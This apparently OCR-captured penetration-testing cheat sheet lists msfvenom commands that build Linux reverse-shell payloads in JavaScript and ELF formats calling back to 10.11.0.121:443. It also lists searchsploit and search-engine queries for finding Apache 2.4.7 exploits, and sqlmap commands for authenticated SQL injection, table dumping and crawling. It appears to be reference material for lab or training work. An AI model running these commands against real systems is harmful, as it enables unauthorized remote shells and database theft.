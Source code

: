 
##  Javascript
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.121 LPORT=443 -f js_le


##  Linux elf binary
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.121 LPORT=443 -b "\x00" -f elf -o filename



##  Search ExploitDB for Apache 2.4.7
site:exploit-db.com apache 2.4.7

##   Remove dos-exploits
searchsploit Apache 2.4.7 | grep -v '/dos/'
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

##   Only search the title (exclude the path), add the -t
searchsploit -t Apache | grep -v '/dos/'




##  SQLMap

##  Easy mode:
sqlmap --wizard


##  you need to authenticate before 
##  you can access vulnerable parameter.
##  Capture request with burp and save to request.txt:
sqlmap -r request.txt


##  grab cookie out of burp/proxy and insert into command line option:
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --cookie "PHPSESSIONID=1234example"


##  Dump:
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql -D databasename -T tablename --dump


##  Crawl:
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
